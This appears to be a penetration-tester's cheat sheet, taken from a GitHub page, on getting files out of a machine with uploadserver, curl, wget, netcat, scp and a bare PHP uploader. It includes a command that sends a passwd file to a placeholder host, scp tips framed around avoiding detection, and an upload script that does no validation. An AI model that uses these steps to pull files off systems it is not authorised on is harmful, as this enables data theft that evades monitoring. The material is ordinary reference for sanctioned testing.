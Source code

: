 ```yaml
---
legal-banner: true
---
```


### **File Uploading Using Python and Curl**

1.  Install uploadserver:  
    `sudo python3 -m pip install --user uploadserver`
2.  Generate a self-signed certificate:  
    `openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'`
3.  Create a directory for the HTTPS server:  
    `mkdir https && cd https`
4.  Start the upload server with HTTPS support:  
    `sudo python3 -m uploadserver 443 --server-certificate ~/server.pem`
5.  Upload files using curl:  
    `curl -X POST https://hostname/upload -F 'files=@/path/to/file' --insecure`

### **File Uploader on Apache Web Server**

1.  Create `upload.php` in `/var/www/html/`:
    
    ```php
    <?php
    $uploaddir = '/var/www/uploads/';
    $uploadfile = $uploaddir . $_FILES['file']['name'];
    move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile)
    ?>
    ```
    
2.  Create uploads directory and set ownership to www-data:  
    `mkdir /var/www/uploads && chown www-data:www-data /var/www/uploads`
    
3.  Upload a file using wget to the Python HTTP server:  
    `wget --post-file=/path/to/file http://[IP-ADRESS]/`
    
4.  Upload a file using wget to the Apache server with upload.php:  
    `wget --post-file=/path/to/file http://[IP-ADRESS]/upload.php`
    

### **File Uploader Using SimpleHTTPServerWithUpload**

1.  Start an HTTP server to accept file uploads using the script from [SimpleHTTPServerWithUpload](https://github.com/Tallguy297/SimpleHTTPServerWithUpload/blob/master/SimpleHTTPServerWithUpload.py):  
    `python3 SimpleHTTPServerWithUpload.py 80`
2.  Upload passwd file using curl:  
    `curl -F 'file=@/dev/shm/passwd' http://[IP-ADRESS]/`

### **File Uploading Using Python Requests Module**

1.  Install the uploadserver package:  
    `pip3 install uploadserver`
2.  Start a Python upload server:  
    `python3 -m uploadserver`
3.  Upload a file:  
    `python3 -c 'import requests;requests.post("http://[IP-ADDRESS]:8000/upload",files={"files":open("/path/to/file","rb")})'`

### **File Uploading Using Netcat**

1.  Start a netcat listener to receive file and save it as file.txt:  
    `nc -nvlp 9001 > file.txt`
2.  Send the file.txt to the receiving machine:  
    `nc [IP-ADDRESS] 9001 < file.txt`

### **File Uploading Using SCP**

1.  **TRANSFERRING FILES WITH A SPECIFIC SSH KEY:**  
    To use a specific SSH key for authentication, include the `-i` option. This is useful when dealing with multiple SSH keys or when the default key is not suitable for the connection.  
    `scp -i /path/to/private_key [FILE-TO-SEND] [USER]@[RECEIVER-IP]:/path/to/destination`
2.  **USING NON-STANDARD PORTS:**  
    SSH servers often use non-standard ports for security purposes. Specify the port with the `-P` option to ensure successful connections.  
    `scp -P 2222 [FILE-TO-SEND] [USER]@[RECEIVER-IP]:/path/to/destination`
3.  **VERBOSE MODE FOR DEBUGGING:**  
    Verbose mode provides detailed information about the SCP transfer process, which is invaluable for debugging connection issues.  
    `scp -v [FILE-TO-SEND] [USER]@[RECEIVER-IP]:/path/to/destination`
4.  **LIMITING BANDWIDTH USAGE:**  
    To avoid detection or to manage network resources efficiently, you can limit the bandwidth usage during file transfer using the `-l` option (specified in kilobits per second):  
    `scp -l 1000 [FILE-TO-SEND] [USER]@[RECEIVER-IP]:/path/to/destination`
5.  **TRANSFERRING ENTIRE DIRECTORIES:**  
    When you need to transfer entire directories, use the `-r` option to copy recursively. This ensures all files and subdirectories are included.  
    `scp -r [DIRECTORY-TO-SEND] [USER]@[RECEIVER-IP]:/path/to/destination`
6.  **PRESERVING FILE ATTRIBUTES:**  
    To preserve file attributes such as modification times, access times, and modes, use the `-p` option:  
    `scp -p [FILE-TO-SEND] [USER]@[RECEIVER-IP]:/path/to/destination`
7.  **QUIET MODE:**  
    To minimize output and avoid drawing attention, use the `-q` option for quiet mode. This suppresses non-error messages.  
    `scp -q [FILE-TO-SEND] [USER]@[RECEIVER-IP]:/path/to/destination`